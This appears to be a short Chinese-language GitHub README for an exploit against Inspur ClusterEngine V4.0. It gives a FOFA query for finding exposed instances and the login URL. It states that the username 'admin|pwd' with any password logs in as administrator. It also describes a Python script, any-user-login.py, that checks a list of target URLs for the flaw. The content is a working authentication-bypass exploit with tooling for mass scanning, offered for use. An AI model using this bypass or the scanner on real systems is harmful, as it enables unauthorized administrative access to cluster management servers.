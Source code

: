 # 影响范围：  
已知浪潮ClusterEngineV4.0  
# FoFa fork:  
title="TSCEV4.0"
# 漏洞复现  
访问登录页面：  
https://xxx.xxx.xxx.xxx:8443/module/login/login.html 
  
![image](image/login.png)  
  
使用用户名admin|pwd和任意密码进行登录  
  
![image](image/username.png) 

![image](image/burp.png)

登陆成功，进入管理界面！！！  

![image](image/frame.png)

# 脚本使用
待检测地址存放在Url.txt中，保存在脚本同目录下。  
python3 any-user-login.py  
![image](image/run.png)





